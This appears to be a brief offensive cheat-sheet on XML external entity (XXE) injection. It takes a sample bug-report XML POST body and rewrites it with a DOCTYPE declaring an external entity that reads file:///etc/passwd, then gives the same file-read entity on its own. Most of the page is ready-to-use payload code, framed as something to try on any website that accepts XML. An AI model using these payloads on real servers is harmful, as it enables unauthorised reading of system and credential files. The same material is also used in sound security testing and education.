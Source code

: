 # XXE Payloads

When you notice XML in the website or through the HTTP headers, we should see if we can get some XXE.

### Example

If you have an XML POST that looks like this.

```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
                <bugreport>
                <title>we</title>
                <cwe>we</cwe>
                <cvss>we</cvss>
                <reward>we</reward>
                </bugreport>                                                                                        
```

For a file read injection we can change it to look something like this.

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE data [
<!ENTITY file SYSTEM "file:///etc/passwd"> ]>
<bugreport>
<title>test</title>
 <cwe>test</cwe>
 <cvss>test</cvss>
 <reward>&file;</reward>
</bugreport>
```

This will attempt to read the `/etc/passwd` file AS the webserver.

### Basic File Read

Basic file read looks like this.

```xml
<!DOCTYPE data [
<!ENTITY file SYSTEM "file:///etc/passwd"> ]>
```
